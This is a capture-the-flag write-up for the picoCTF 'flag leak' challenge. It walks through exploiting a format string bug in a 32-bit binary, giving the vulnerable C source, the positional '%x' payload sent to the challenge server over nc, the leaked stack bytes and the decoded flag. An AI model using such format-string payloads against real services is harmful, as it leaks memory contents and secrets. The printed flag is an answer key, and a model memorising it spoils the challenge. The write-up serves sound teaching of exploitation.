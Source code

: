 # FLAG LEAK

# OVERVIEW & IDEA

- This challenge gives us a 32-bits binary file and its source code. Below is informations of binary file.

```
λ ~/flag_leak/ file vuln

vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=7cdf03860c5c78d6e375e91d88a2b05b28389fd0, for GNU/Linux 3.2.0, not stripped

λ ~/flag_leak/ checksec --file=vuln
[*] '~/flag_leak/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

- Look at the `vuln()` function, we can see that, it reads the flag and puts it in `flag[BUFSIZE]`, then, program takes input and puts it in `story[128]`. But at the end of function, we see a format string vulnerable `printf(story)`.

```c
void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}
```

- The idea of this challenge is just use format string vuln to leak the data on the stack, which contain flag.

## DETAILS & EXPLOIT

- I will use a bunch of `%x` to leak the data on stack. The index will be start at somewhere at `128/4 + 1 = 33` to `128/4 + 1 + 15 = 48`. `flag[]` will be at that range.

- I create the format string with simple script

```
>>> for i in range(33, 48):
...     print('%' + str(i) + '$08x', sep ='', end ='.')
...
%33$08x.%34$08x.%35$08x.%36$08x.%37$08x.%38$08x.%39$08x.%40$08x.%41$08x.%42$08x.%43$08x.%44$08x.%45$08x.%46$08x.%47$08x
```

- Copy that and feed as input for server and we get

```
λ ~/ nc saturn.picoctf.net 52344
Tell me a story and then I'll tell you one >> %33$08x.%34$08x.%35$08x.%36$08x.%37$08x.%38$08x.%39$08x.%40$08x.%41$08x.%42$08x.%43$08x.%44$08x.%45$08x.%46$08x.%47$08x.%48$08x
Here's a story -
2e783830.24383425.00783830.6f636970.7b465443.6b34334c.5f676e31.67346c46.6666305f.3474535f.635f6b63.34396532.7d643365.fbad2000.c7fa4100.00000000
```

- Using online hext to text converter I get this

![img](/picoCTF/flag_leak/assets/leak.png)

```
ocip{FTCk43L_gn1g4lFff0_4tS_c_kc49e2}d3e
```

- The order of flag is at little-endian so I write this script to convert to correct flag.

```
>>> s = "ocip{FTCk43L_gn1g4lFff0_4tS_c_kc49e2}d3e"
>>> for i in range(0, len(s), 4):
...     print(s[i+3], s[i+2], s[i+1], s[i], end = '', sep = '')
...
picoCTF{L34k1ng_Fl4g_0ff_St4ck_c2e94e3d}
```